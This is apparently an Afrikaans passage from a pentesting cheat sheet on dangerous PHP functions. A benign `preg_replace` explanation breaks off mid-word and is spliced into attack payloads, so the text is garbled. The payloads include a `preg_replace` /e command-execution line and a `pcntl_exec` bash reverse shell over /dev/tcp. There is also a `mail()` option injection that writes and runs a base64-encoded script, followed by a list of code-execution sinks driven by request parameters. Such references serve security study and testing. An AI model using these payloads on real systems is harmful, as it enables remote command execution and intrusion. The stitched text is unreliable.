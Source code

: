 Hier is 'n voorbeeld van hoe `preg\_replace` gebruik kan word:

```php
$text = "Hello, world!";
$pattern = "/world/";
$replacement = "universe";

$newText = preg_replace($pattern, $replacement, $text);
echo $newText; // Output: Hello, universe!
```

In hierdie voorbeeld word die woord "world" in die teksreeks "Hello, world!" vervang met die woord "universe". Die `preg\_replace`-funksie soek na die patroon "/world/" in die teksreeks en vervang dit met die waarde "universe". Die nuwe teksreeks, "Hello, universe!", word dan uitgevoer.

Dit is belangrik om te onthou dat `preg\_replace` 'n regulêre uitdrukking gebruik om te soek na ooreenstemmende patrone. Dit beteken dat jy spesiale karakters moet ontsnap met 'n sku
```php
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```
**pcntl\_exec** - Voer 'n program uit (standaard moet jy die `pcntl.so` module laai om hierdie funksie in moderne en nie so moderne PHP te gebruik)
```bash
pcntl_exec("/bin/bash", ["-c", "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"]);
```
**pos / mb_send_mail** - Hierdie funksie word gebruik om e-posse te stuur, maar dit kan ook misbruik word om willekeurige opdragte in die `$options` parameter in te spuit. Dit is omdat die **php `mail` funksie** gewoonlik die `sendmail` binêre lêer in die stelsel aanroep en dit jou toelaat om **ekstra opsies** in te voer. Jy sal egter nie die uitset van die uitgevoerde opdrag kan sien nie, so dit word aanbeveel om 'n skripsie te skep wat die uitset na 'n lêer skryf, dit uit te voer met behulp van mail, en die uitset te druk:
```bash
file_put_contents('/www/readflag.sh', base64_decode('IyEvYmluL3NoCi9yZWFkZmxhZyA+IC90bXAvZmxhZy50eHQKCg==')); chmod('/www/readflag.sh', 0777);  mail('', '', '', '', '-H \"exec /www/readflag.sh\"'); echo file_get_contents('/tmp/flag.txt');
```
**dl** - Hierdie funksie kan gebruik word om 'n PHP-uitbreiding dinamies te laai. Hierdie funksie sal nie altyd beskikbaar wees nie, so jy moet eers nagaan of dit beskikbaar is voordat jy probeer om dit uit te buit. Lees [hierdie bladsy om te leer hoe om hierdie funksie uit te buit](disable\_functions-bypass-dl-function.md).

### PHP Kode Uitvoering

Afgesien van eval is daar ander maniere om PHP-kode uit te voer: include/require kan gebruik word vir afgeleë kode-uitvoering in die vorm van plaaslike lêer insluiting en afgeleë lêer insluiting kwesbaarhede.
```php
${<php code>}              // If your input gets reflected in any PHP string, it will be executed.
eval()
assert()                   //  identical to eval()
preg_replace('/.*/e',...)  // e does an eval() on the match
create_function()          // Create a function and use eval()
include()
include_once()
require()
require_once()
$_GET['func_name']($_GET['argument']);

$func = new ReflectionFunction($_GET['func_name']);
$func->invoke();
// or
$func->invokeArgs(array());

// or serialize/unserialize function
```
## disable\_functions & open\_basedir